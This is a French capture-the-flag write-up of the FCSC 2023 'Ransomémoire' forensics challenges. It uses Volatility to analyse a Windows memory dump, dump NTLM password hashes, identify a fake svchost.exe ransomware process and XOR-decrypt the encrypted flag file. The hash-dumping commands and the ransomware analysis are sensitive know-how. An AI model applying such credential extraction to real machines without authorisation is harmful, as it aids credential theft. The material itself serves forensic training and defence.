




> Merci à [Abyss W4tcher](https://github.com/Abyss-W4tcher) pour son [script install de volatility](https://github.com/Abyss-W4tcher/ab4yss-tools/blob/master/vol_install_for_apt_systems.sh) qui permet d'exécuter **volatility** dans un docker.

---

# Ransomémoire

Catégorie : forensics

## Ransomémoire 0/3 - Pour commencer

Difficulté : :star:

### Énoncé

> Vous vous préparez à analyser une capture mémoire et vous notez quelques informations sur la machine avant de plonger dans l'analyse :
> - nom d'utilisateur,
> - nom de la machine,
> - navigateur utilisé.
>
> Le flag est au format FCSC{<nom d'utilisateur>:<nom de la machine>:<nom du navigateur>} où :
> - <nom d'utilisateur> est le nom de l'utilisateur qui utilise la machine,
> - <nom de la machine> est le nom de la machine analysée et
> - <nom du navigateur> est le nom du navigateur en cours d'exécution.
>
> Par exemple : FCSC{toto:Ordinateur-de-jojo:Firefox}.
>
> Attention : pour cette épreuve, vous n'avez que 10 tentatives de flag.
>
> **SHA256(fcsc.7z) = 754cb093af343356827d650270f9faa56cc4c44f44243ea08590edb1bc270b5e**

### Solve

On verifie l'intégrité du dump :

```shell
sha256sum fcsc.7z | grep 754cb093af343356827d650270f9faa56cc4c44f44243ea08590edb1bc270b5e

754cb093af343356827d650270f9faa56cc4c44f44243ea08590edb1bc270b5e  fcsc.7z
```

On récupère des informations de l'image :

```shell
vol2d -f /a/$(readlink -f fcsc.dmp) imageinfo
Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win10x64_19041
                     AS Layer1 : SkipDuplicatesAMD64PagedMemory (Kernel AS)
                     AS Layer2 : VirtualBoxCoreDumpElf64 (Unnamed AS)
                     AS Layer3 : FileAddressSpace (/a/home/zarkyo/info/cyber/CTF-WU/fcsc-2023/Ransomemoire/fcsc.dmp)
                      PAE type : No PAE
                           DTB : 0x1aa002L
                          KDBG : 0xf8054c215b20L
          Number of Processors : 4
     Image Type (Service Pack) : 0
                KPCR for CPU 0 : 0xfffff8054a57e000L
                KPCR for CPU 1 : 0xffffa6000d1a1000L
                KPCR for CPU 2 : 0xffffa6000cde8000L
                KPCR for CPU 3 : 0xffffa6000cfd3000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2023-04-17 17:24:50 UTC+0000
     Image local date and time : 2023-04-17 19:24:50 +0200
```

```shell
sudo vol -f fcsc.dmp windows.info
Volatility 3 Framework 2.0.1
Progress:  100.00               PDB scanning finished
Variable        Value

Kernel Base     0xf8054b615000
DTB     0x1aa000
Symbols file:///usr/lib/python3.10/site-packages/volatility3/symbols/windows/ntkrnlmp.pdb/3789767E34B7A48A3FC80CE12DE18E65-1.json.xz
Is64Bit True
IsPAE   False
layer_name      0 WindowsIntel32e
memory_layer    1 Elf64Layer
base_layer      2 FileLayer
KdVersionBlock  0xf8054c224398
Major/Minor     15.19041
MachineType     34404
KeNumberProcessors      4
SystemTime      2023-04-17 17:24:50
NtSystemRoot    C:\Windows
NtProductType   NtProductWinNt
NtMajorVersion  10
NtMinorVersion  0
PE MajorOperatingSystemVersion  10
PE MinorOperatingSystemVersion  0
PE Machine      34404
PE TimeDateStamp        Mon Nov 24 23:45:00 2070
```

| ntoskrnl version | GUID-AGE                          |   OS   |
| :--------------- | :-------------------------------- | :----: |
| 10.0.19041.2728  | 3789767E34B7A48A3FC80CE12DE18E651 |  Win10 |


On affiche les **hive** :

```shell
sudo vol -f fcsc.dmp windows.registry.hivelist.HiveList
Volatility 3 Framework 2.0.1
Progress:  100.00               PDB scanning finished
Offset  FileFullPath    File output

0xe306c7864000          Disabled
0xe306c7889000  \REGISTRY\MACHINE\SYSTEM        Disabled
0xe306c8327000  \REGISTRY\MACHINE\HARDWARE      Disabled
0xe306c8bee000  \SystemRoot\System32\Config\DEFAULT     Disabled
0xe306c8d03000  \SystemRoot\System32\Config\SAM Disabled
0xe306c8d0a000  \SystemRoot\System32\Config\SECURITY    Disabled
0xe306c8d06000  \SystemRoot\System32\Config\SOFTWARE    Disabled
[...]
```

On récupère le nom de la machine :

```shell
sudo vol -f fcsc.dmp windows.registry.printkey.PrintKey --offset 0xe306c7889000  --key 'ControlSet001\Control\ComputerName\ComputerName'
Volatility 3 Framework 2.0.1
Progress:  100.00               PDB scanning finished
Last Write Time Hive Offset     Type    Key     Name    Data    Volatile

2023-04-04 17:24:39.000000      0xe306c7889000  REG_SZ  \REGISTRY\MACHINE\SYSTEM\ControlSet001\Control\ComputerName\ComputerName        (Default)       "mnmsrvc"       False
2023-04-04 17:24:39.000000      0xe306c7889000  REG_SZ  \REGISTRY\MACHINE\SYSTEM\ControlSet001\Control\ComputerName\ComputerName        ComputerName    "DESKTOP-PI234GP"       False
```

On peut dump les **hash** de password, on y retrouvera aussi les noms d'utilisateurs :

```shell
sudo vol -f fcsc.dmp windows.hashdump.Hashdump
Volatility 3 Framework 2.0.1
Progress:  100.00               PDB scanning finished
User    rid     lmhash  nthash

Administrateur  500     aad3b435b51404eeaad3b435b51404ee        31d6cfe0d16ae931b73c59d7e0c089c0
Invité  501     aad3b435b51404eeaad3b435b51404ee        31d6cfe0d16ae931b73c59d7e0c089c0
DefaultAccount  503     aad3b435b51404eeaad3b435b51404ee        31d6cfe0d16ae931b73c59d7e0c089c0
WDAGUtilityAccount      504     aad3b435b51404eeaad3b435b51404ee        8e6339a5717f7eab09999cc9f09f6828
Admin   1001    aad3b435b51404eeaad3b435b51404ee        a881324bad161293dedc71817988d944
```

Enfin, on récupère le navigateur en cours d'exécution :

```shell
sudo vol -f fcsc.dmp windows.pstree.PsTree
Volatility 3 Framework 2.0.1
Progress:  100.00               PDB scanning finished
PID     PPID    ImageFileName   Offset(V)       Threads Handles SessionId       Wow64   CreateTime      ExitTime

4       0       System  0x81867fc82080  185     -       N/A     False   2023-04-16 21:46:14.000000      N/A
* 380   4       smss.exe        0x818681879040  2       -       N/A     False   2023-04-16 21:46:14.000000      N/A
[...]
* 3892  624     userinit.exe    0x8186813f5340  0       -       1       False   2023-04-16 21:47:17.000000      2023-04-16 21:47:42.000000 
** 3928 3892    explorer.exe    0x818684aa0340  66      -       1       False   2023-04-16 21:47:17.000000      N/A
*** 6304        3928    SecurityHealth  0x8186885240c0  6       -       1       False   2023-04-16 21:47:34.000000      N/A
*** 6424        3928    VBoxTray.exe    0x81868852e080  13      -       1       False   2023-04-16 21:47:34.000000      N/A
**** 5540       6424    svchost.exe     0x818687754080  1       -       1       False   2023-04-17 17:21:18.000000      N/A
*** 3524        3928    ProcessHacker.  0x818687fb70c0  10      -       1       False   2023-04-17 17:21:50.000000      N/A
*** 4072        3928    brave.exe       0x818688060300  31      -       1       False   2023-04-17 17:21:31.000000      N/A
**** 4160       4072    brave.exe       0x818687e5e080  18      -       1       False   2023-04-17 17:22:11.000000      N/A
**** 2844       4072    brave.exe       0x818688773080  7       -       1       False   2023-04-17 17:21:44.000000      N/A
**** 5064       4072    brave.exe       0x8186872b8300  8       -       1       False   2023-04-17 17:21:39.000000      N/A
**** 3952       4072    brave.exe       0x818687ff6080  14      -       1       False   2023-04-17 17:21:44.000000      N/A
**** 5500       4072    brave.exe       0x8186886980c0  15      -       1       False   2023-04-17 17:21:46.000000      N/A
**** 4060       4072    brave.exe       0x818681344080  12      -       1       False   2023-04-17 17:21:44.000000      N/A
7156    7048    OneDrive.exe    0x81868897e080  20      -       1       False   2023-04-16 21:48:32.000000      N/A
* 2296  7156    Microsoft.Shar  0x818684b43080  0       -       1       False   2023-04-17 17:16:06.000000      2023-04-17 17:16:08.000000 
6808    6612    brave.exe       0x818688160300  10      -       1       False   2023-04-17 17:16:19.000000      N/A
* 3144  6808    brave.exe       0x8186880f4080  0       -       1       False   2023-04-17 17:18:04.000000      2023-04-17 17:18:58.000000 
960     1528    BraveUpdate.ex  0x818688718080  3       -       0       True    2023-04-17 17:16:26.000000      N/A
```

**Flag : FCSC{Admin:DESKTOP-PI234GP:brave}**

## Ransomémoire 1/3 - Mon précieux

Difficulté : :star: :star:

### Énoncé

> Vous étiez en train de consulter vos belles photos de chats quand patatra, votre fichier super secret sur votre Bureau change d'extension et devient illisible...
>
> Vous faites une capture mémoire pour comprendre ce qu'il s'est passé, dans le but de récupérer ce précieux fichier.
>
> Attention : pour cette épreuve, vous n'avez que 10 tentatives de flag.

### Solve

On sait qu'on doit retrouver un fichier qui était stocké sur le bureau de de la machine :

```shell
vol2d --plugins=/a/$(readlink -f plugins) -f /a/$(readlink -f fcsc.dmp) --profile=Win10x64_19041 mftparser > mft.txt
```

```shell
grep -i 'Users\\Admin\\Desktop\\' mft.txt 

2023-04-17 17:23:45 UTC+0000 2023-04-17 17:23:50 UTC+0000   2023-04-17 17:23:50 UTC+0000   2023-04-17 17:23:50 UTC+0000   Users\Admin\Desktop\FLAGFC~1.ENC
2023-04-17 17:23:45 UTC+0000 2023-04-17 17:23:50 UTC+0000   2023-04-17 17:23:50 UTC+0000   2023-04-17 17:23:50 UTC+0000   Users\Admin\Desktop\flag.fcsc.enc
[...]
2023-04-17 17:23:45 UTC+0000 2023-04-17 17:23:45 UTC+0000   2023-04-17 17:23:45 UTC+0000   2023-04-17 17:23:45 UTC+0000   Users\Admin\Desktop\chats.odt
[...]
```

On remarque le fichier `flag.fcsc.enc`. On va essayer de l'extraire :

```
vol2d --plugins=/a/$(readlink -f plugins) -f /a/$(readlink -f fcsc.dmp) --profile=Win10x64_19041 filescan > files.txt
```

Malheureusement, on ne trouve pas le fichier dans le résultat du filescan :

```shell
grep -i flag files.txt
```

On peut essayer de l'extraire avec l'aide de la MFT :

```shell
vol2d --plugins=/a/$(readlink -f plugins) -f /a/$(readlink -f fcsc.dmp) --profile=Win10x64_19041 mftparser --output=body --dump-dir=/a/$(readlink -f extracts/mft) --output-file=/a/$(readlink -f extracts/ransom_mft.body)
```

```shell
grep -i flag extracts/ransom_mft.body 
0|[MFT FILE_NAME] Users\Admin\Desktop\FLAGFC~1.ENC (Offset: 0x1327400)|96165|---a-----------|0|0|71|1681752230|1681752230|1681752230|1681752225
0|[MFT STD_INFO] Users\Admin\Desktop\FLAGFC~1.ENC (Offset: 0x1327400)|96165|---a-----------|0|0|71|1681752230|1681752230|1681752230|1681752225
0|[MFT FILE_NAME] Users\Admin\Desktop\flag.fcsc.enc (Offset: 0x1327400)|96165|---a-----------|0|0|71|1681752230|1681752230|1681752230|1681752225
0|[MFT FILE_NAME] Program Files\WindowsApps\microsoft.windowscommunicationsapps_16005.11629.20316.0_x64__8wekyb3d8bbwe\images\CONTRA~1\FlagToastQuickAction.scale-80.png (Offset: 0x6fbaf000)|99752|---a-----------|0|0|0|1680631553|1680631553|1680631553|1680631553
```

```shell
ls extracts/mft/*1327400*
extracts/mft/file.0x1327400.data0.dmp

mv extracts/mft/file.0x1327400.data0.dmp extracts/flag.fcsc.enc
```

On a récupéré notre fichier. On sait que le fichier a changé d'extension et est devenu illisible. Avec le nom du chall, on peut se douter que le fichier a été chiffré. On va essayer de voir quel processus a pu interagir avec ce fichier.

Pour cela, on va aller regarder les **handles** :

```shell
vol2d --plugins=/a/$(readlink -f plugins) -f /a/$(readlink -f fcsc.dmp) --profile=Win10x64_19041 handles > handles.txt
```

```shell
grep -i flag handles.txt
0xffffe306c87640a0      4              0x120            0x20019 Key              MACHINE\SYSTEM\CONTROLSET001\CONTROL\AUDIO\HDAUDIOFLAGS
0xffffe306cb638910    728              0x37c            0xf003f Key              MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\SCHEDULE\TASKSTATEFLAGS
0xffffe306cd814260      8              0x834            0xf003f Key              MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\APPCOMPATFLAGS\CLIENTTELEMETRY\TPREQUESTS
0xffffe306cd813380      8              0x8ec            0xf003f Key              MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\APPCOMPATFLAGS\CLIENTTELEMETRY\TPREQUESTS
0xffffe306cf7801e0   4900              0x190            0xf003f Key              MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\APPCOMPATFLAGS\TELEMETRYCONTROLLER
0xffffe306cf781720   4900              0x1d8            0x20019 Key              MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\APPCOMPATFLAGS\TELEMETRYCONTROLLER\APPRAISER
```

On a rien dans les handles concernant `flag.fcsc`.

Cependant, on sait que le fichier est contenu sur le bureau :

```shell
grep -i desktop handles.txt

Offset(V)             Pid             Handle             Access Type             Details
------------------ ------ ------------------ ------------------ ---------------- -------
0xffff818684ccec70      4              0x530            0xf0003 Desktop          Disconnect
0xffff818684ccf240      4              0x71c            0xf0003 Desktop          Disconnect
[...]
0xffff818689b9cba0   3928              0xd58           0x100081 File             \Device\HarddiskVolume2\Users\Public\Desktop
[...]
0xffff818689b9e4a0   3928             0x1624           0x100081 File             \Device\HarddiskVolume2\Users\Admin\Desktop
[...]
0xffff818689b9fda0   3928             0x2264           0x100081 File             \Device\HarddiskVolume2\Users\Public\Desktop
[...]
0xffff818689b9d1e0   3928             0x25bc           0x100081 File             \Device\HarddiskVolume2\Users\Admin\Desktop
[...]
0xffff818689b8f590   5540              0x218           0x100001 File             \Device\HarddiskVolume2\Users\Admin\Desktop
[...]
```

On a 2 processus qui interagissent avec le bureau : **3928 (explorer.exe)** et **5540 (svchost.exe)**.

On peut dump les processus suspects :

```shell
vol2d --plugins=/a/$(readlink -f plugins) -f /a/$(readlink -f fcsc.dmp) --profile=Win10x64_19041 procdump -p 5540 --dump-dir=/a/$(readlink -f extracts)
Volatility Foundation Volatility Framework 2.6.1

Process(V)         ImageBase          Name                 Result
------------------ ------------------ -------------------- ------
0xffff818687754080 0x0000000000400000 svchost.exe          OK: executable.5540.exe
```

Le **5540 (svchost.exe)** est concluant en remarquant les extensions `.enc` et `.fcsc` avec strings.

```shell
strings -el extracts/executable.5540.exe 
C:\Windows\Temp\MsCmdRun%d.log
.enc
*.fcsc
```

On va devoir analyser l'exe pour espérer récupérer une clé de chiffrement :

```shell
file extracts/executable.5540.exe 
extracts/executable.5540.exe: PE32+ executable (GUI) x86-64 (stripped to external PDB), for MS Windows, 5 sections
```

```shell
objdump -p extracts/executable.5540.exe       

extracts/executable.5540.exe:     format de fichier pei-x86-64

Caractéristiques 0x22f
        relocations stripped
        executable
        line numbers stripped
        symbols stripped
        large address aware
        debugging information removed

Time/Date               Mon Apr 17 00:37:33 2023
Magic                   020b    (PE32+)
MajorLinkerVersion      2
MinorLinkerVersion      35
SizeOfCode              0000000000000600
SizeOfInitializedData   0000000000000a00
SizeOfUninitializedData 0000000000000000
AddressOfEntryPoint     0000000000001420
BaseOfCode              0000000000001000
ImageBase               0000000000400000
SectionAlignment        00001000
FileAlignment           00000200
MajorOSystemVersion     4
MinorOSystemVersion     0
MajorImageVersion       0
MinorImageVersion       0
MajorSubsystemVersion   5
MinorSubsystemVersion   2
Win32Version            00000000
SizeOfImage             00006000
SizeOfHeaders           00000400
CheckSum                0000d417
Subsystem               00000002        (Windows GUI)
DllCharacteristics      00000000
SizeOfStackReserve      0000000000200000
SizeOfStackCommit       0000000000001000
SizeOfHeapReserve       0000000000100000
SizeOfHeapCommit        0000000000001000
LoaderFlags             00000000
NumberOfRvaAndSizes     00000010

The Data Directory
Entry 0 0000000000000000 00000000 Export Directory [.edata (or where ever we found it)]
Entry 1 0000000000005000 00000394 Import Directory [parts of .idata]
Entry 2 0000000000000000 00000000 Resource Directory [.rsrc]
Entry 3 0000000000003000 0000003c Exception Directory [.pdata]
Entry 4 0000000000000000 00000000 Security Directory
Entry 5 0000000000000000 00000000 Base Relocation Directory [.reloc]
Entry 6 0000000000000000 00000000 Debug Directory
Entry 7 0000000000000000 00000000 Description Directory
Entry 8 0000000000000000 00000000 Special Directory
Entry 9 0000000000000000 00000000 Thread Storage Directory [.tls]
Entry a 0000000000000000 00000000 Load Configuration Directory
Entry b 0000000000000000 00000000 Bound Import Directory
Entry c 0000000000005124 000000c0 Import Address Table Directory
Entry d 0000000000000000 00000000 Delay Import Directory
Entry e 0000000000000000 00000000 CLR Runtime Header
Entry f 0000000000000000 00000000 Reserved

Il y a une table d'importation dans .idata à 0x405000

Les tables d'importation (contenus interprété de la section .idata)
 vma:            Hint    Temps     Avant    DLL       Premier
                 Table   Estampil. Chaîne   Nom       Thunk
 00005000       00005064 00000000 00000000 00005314 00005124

        Nom DLL: bcrypt.dll
        vma:  Hint/Ord Membre      Lien
        51e4       30  BCryptGenRandom

 00005014       00005074 00000000 00000000 00005364 00005134

        Nom DLL: KERNEL32.dll
        vma:  Hint/Ord Membre      Lien
        51f6      141  CloseHandle
        5204      212  CreateFileW
        5212      366  ExitProcess
        5220      400  FindFirstFileW
        5232      488  GetCommandLineW
        5244      654  GetModuleHandleW
        5258      716  GetProcessHeap
        526a      744  GetStartupInfoW
        527c      863  HeapAlloc
        5288      869  HeapFree
        5294     1032  MoveFileW
        52a0     1170  ReadFile
        52ac     1319  SetFilePointer
        52be     1410  Sleep
        52c6     1567  WriteFile
        52d2     1597  lstrcatW
        52de     1606  lstrcpyW

 00005028       00005104 00000000 00000000 00005378 000051c4

        Nom DLL: SHELL32.dll
        vma:  Hint/Ord Membre      Lien
        52ea      256  SHGetSpecialFolderPathW

 0000503c       00005114 00000000 00000000 00005388 000051d4

        Nom DLL: USER32.dll
        vma:  Hint/Ord Membre      Lien
        5304      959  wsprintfW

 00005050       00000000 00000000 00000000 00000000 00000000

La table de fonctions (interprétation du contenu de la section .pdata)
 vma:                   Adresse Début    Adresse Fin      Unwind Info
```

On va ouvrir notre `.exe` avec un decompiler **(ghidra)**.









On comprend qu'une chaine de caractère est généré de manière aléatoire avec Bcrypt toute les 10 secondes, cette chaine est écrite dans un nouveau fichier `MsCmdRunX.log` à chaque nouvelle itération. Ce fichier sera notre "clé".

Un XOR a été réalisé sur notre `flag.fcsc`. Le XOR est fait à partir de la "clé" et d'un nombre qui correspond au numéro de la "clé".

Il faut maintenant récupérer les fichiers `MsCmdRunX.log`. On a précédemment pu récupérer l'ensemble des fichiers. Il suffit de les trouver :

```shell
grep -i 'MsCmdRun' extracts/ransom_mft.body
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun3.log (Offset: 0x4701800)|4090|---a-----------|0|0|0|1681752123|1681752123|1681752123|1681752123
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun11.log (Offset: 0xd3bfc00)|274107|---a-----------|0|0|0|1681752211|1681752211|1681752211|1681752211
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun15.log (Offset: 0x1941cc00)|116115|---a-----------|0|0|0|1681752237|1681752237|1681752237|1681752237
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun17.log (Offset: 0x1dc6fc00)|274203|---a-----------|0|0|0|1681752253|1681752253|1681752253|1681752253
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun6.log (Offset: 0x24ddcc00)|273919|---a-----------|0|0|0|1681752165|1681752165|1681752165|1681752165
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun2.log (Offset: 0x2aefcc00)|244919|---a-----------|0|0|0|1681752108|1681752108|1681752108|1681752108
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun7.log (Offset: 0x2fc41000)|274112|---a-----------|0|0|0|1681752176|1681752176|1681752176|1681752176
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun8.log (Offset: 0x2fc41c00)|274115|---a-----------|0|0|0|1681752186|1681752186|1681752186|1681752186
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun12.log (Offset: 0x405edc00)|274195|---a-----------|0|0|0|1681752218|1681752218|1681752218|1681752218
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun19.log (Offset: 0x411b7800)|118250|---a-----------|0|0|0|1681752272|1681752272|1681752272|1681752272
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun13.log (Offset: 0x4440b800)|93990|---a-----------|0|0|0|1681752224|1681752224|1681752224|1681752224
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun14.log (Offset: 0x45022000)|106392|---a-----------|0|0|0|1681752230|1681752230|1681752230|1681752230
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun0.log (Offset: 0x451ea800)|271638|---a-----------|0|0|0|1681752078|1681752078|1681752078|1681752078
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun20.log (Offset: 0x5135d198)|274226|---a-----------|0|0|0|1681752283|1681752283|1681752283|1681752283
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun9.log (Offset: 0x521c0c00)|274111|---a-----------|0|0|0|1681752195|1681752195|1681752195|1681752195
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun18.log (Offset: 0x59573400)|274217|---a-----------|0|0|0|1681752262|1681752262|1681752262|1681752262
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun4.log (Offset: 0x5a8fc000)|272660|---a-----------|0|0|0|1681752138|1681752138|1681752138|1681752138
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun1.log (Offset: 0x60769800)|271646|---a-----------|0|0|0|1681752093|1681752093|1681752093|1681752093
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun5.log (Offset: 0x674d8800)|272342|---a-----------|0|0|0|1681752152|1681752152|1681752152|1681752152
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun16.log (Offset: 0x7052a800)|116814|---a-----------|0|0|0|1681752244|1681752244|1681752244|1681752244
0|[MFT FILE_NAME] Windows\Temp\MsCmdRun10.log (Offset: 0x74ec2000)|274116|---a-----------|0|0|0|1681752204|1681752204|1681752204|1681752204
```

On prend l'offset pour trouver le fichier correspondant et on le renomme. On fait ca pour chaque fichier :

```shell
ls extracts/mft/*4701800*
extracts/mft/file.0x4701800.data0.dmp

mv extracts/mft/file.0x4701800.data0.dmp log/MsCmdRun3.log
```

Maintenant qu'on a récupéré les fichiers, on brute force en réalisant un XOR avec toutes les "clés" produites :

```python
import os

def xor_files(file1, file2, output_file, i2):
    with open(file1, "rb") as f1, open(file2, "rb") as f2, open(output_file, "wb") as out:
        buffer_file = f1.read()
        buffer_file2 = f2.read()
        value_100 = len(buffer_file)

        i = 0
        while i != value_100:
            byte1 = buffer_file[i]
            byte2 = buffer_file2[i]
            out.write(bytes([byte1 ^ byte2 ^ i2]))
            i = i + 1

# Input and output file paths
flag_file = "extracts/flag.fcsc.enc"
output_folder = "output"

# Create output folder if it doesn't exist
if not os.path.exists(output_folder):
    os.mkdir(output_folder)

# Loop over MsCmdRunX.log files in Log folder
for i in range(20):
    log_file = f"log/MsCmdRun{i}.log"
    output_file = f"{output_folder}/xor_output{i}.txt"

    # Perform the XOR operation between the flag file and the log file
    xor_files(flag_file, log_file, output_file, i)

    print(f"Le fichier {log_file} a été XOR avec succès avec le fichier {flag_file}")
    print(f"Le résultat est enregistré dans {output_file}")
```

Dans l'output **14**, on récupère notre flag.

On aurait pu détecter notre processus malveillant dans la MFT de part le **path** du **svchost.exe** : `Windows\Temp\svchost.exe`

```shell
$STANDARD_INFORMATION
Creation                       Modified                       MFT Altered                    Access Date                    Type
------------------------------ ------------------------------ ------------------------------ ------------------------------ ----
2023-04-17 17:21:16 UTC+0000 2023-04-17 17:21:17 UTC+0000   2023-04-17 17:24:14 UTC+0000   2023-04-17 17:22:16 UTC+0000   Archive

$FILE_NAME
Creation                       Modified                       MFT Altered                    Access Date                    Name/Path
------------------------------ ------------------------------ ------------------------------ ------------------------------ ---------
2023-04-17 17:21:16 UTC+0000 2023-04-17 17:21:16 UTC+0000   2023-04-17 17:21:16 UTC+0000   2023-04-17 17:21:16 UTC+0000   Windows\Temp\svchost.exe

$DATA


***************************************************************************
***************************************************************************
MFT entry found at offset 0x451ea800
Attribute: In Use & File
Record Number: 271638
Link count: 2


$STANDARD_INFORMATION
Creation                       Modified                       MFT Altered                    Access Date                    Type
------------------------------ ------------------------------ ------------------------------ ------------------------------ ----
2023-04-17 17:21:18 UTC+0000 2023-04-17 17:21:18 UTC+0000   2023-04-17 17:24:14 UTC+0000   2023-04-17 17:21:18 UTC+0000   Archive

$FILE_NAME
Creation                       Modified                       MFT Altered                    Access Date                    Name/Path
------------------------------ ------------------------------ ------------------------------ ------------------------------ ---------
